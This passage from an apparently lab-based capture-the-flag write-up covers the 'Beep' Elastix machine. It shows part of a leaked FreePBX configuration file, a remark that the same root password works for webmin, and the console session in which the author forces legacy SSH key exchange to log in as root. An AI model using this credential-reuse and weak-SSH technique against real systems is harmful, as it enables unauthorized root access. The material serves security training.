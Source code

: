 # AMPMODULESVN is the prefix that is appended to <location> tags in the XML file.
# This should be set to http://mirror.freepbx.org/modules/
AMPMODULESVN=http://mirror.freepbx.org/modules/

AMPDBNAME=asterisk

ASTETCDIR=/etc/asterisk
ASTMODDIR=/usr/lib/asterisk/modules
ASTVARLIBDIR=/var/lib/asterisk
ASTAGIDIR=/var/lib/asterisk/agi-bin
ASTSPOOLDIR=/var/spool/asterisk
ASTRUNDIR=/var/run/asterisk
ASTLOGDIR=/var/log/asteriskSorry! Attempt to access restricted file.
```

Logging into elastix did not give anything.

Note: I did not take this route but you could login to webmin using the username root and the same password.

![image](https://user-images.githubusercontent.com/105310322/192898881-58326eb1-d87d-4efb-804c-7bfc349d541c.png)

When trying to login to SSH I had first thought that it was not possible as root, however upon further inpection I realized because this box is so old that it probably wasnt accepting my keys.

So using this link https://www.infosecmatter.com/solution-for-ssh-unable-to-negotiate-errors/ I gifured out how to fix my problem

```console
└──╼ [★]$ ssh root@10.129.1.226
Unable to negotiate with 10.129.1.226 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```
Finally it accepted one of the keys ```diffie-hellman-group-exchange-sha1``` and we got root quick and easy!

```
└──╼ [★]$ ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 root@10.129.1.226
The authenticity of host '10.129.1.226 (10.129.1.226)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.1.226' (RSA) to the list of known hosts.
root@10.129.1.226's password: 
Permission denied, please try again.
root@10.129.1.226's password: 
Last login: Tue Sep 29 12:10:12 2020

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.129.1.226

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]# 
```
